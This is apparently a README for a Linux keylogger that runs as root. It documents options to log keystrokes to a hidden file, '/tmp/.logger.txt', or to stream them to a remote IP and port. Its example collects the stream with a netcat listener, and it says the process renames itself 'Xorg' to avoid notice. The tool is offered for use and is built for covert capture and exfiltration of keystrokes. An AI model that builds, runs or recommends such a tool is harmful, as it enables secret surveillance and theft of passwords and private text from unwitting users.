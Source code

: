 # Simple_Local&Remote_Keylogger

Simple keylogger that runs on Linux.<br>
It must be run as root.

__________________________________________________________________________
Usage: #./slrk [OPTIONS]<br>
<br>
OPTIONS:<br>
	-d \<input-device\>:  if not specified, the default device is '/dev/input/by-path/***kbd'<br>
	-o \<output-file\>:   it can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'<br>
	-m remote -a \<IP-ADDR\> -p \<PORT\>: it sends all the keystrokes on the remote server located at \<IP-ADDR:PORT\><br>
<br>
EXAMPLE<br>
Server$ nc -lvp 8888 > logger.txt<br><br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br>
__________________________________________________________________________
<br>(Keys are mapped on English keyboard)<br>
(Process name is renamed as "Xorg")
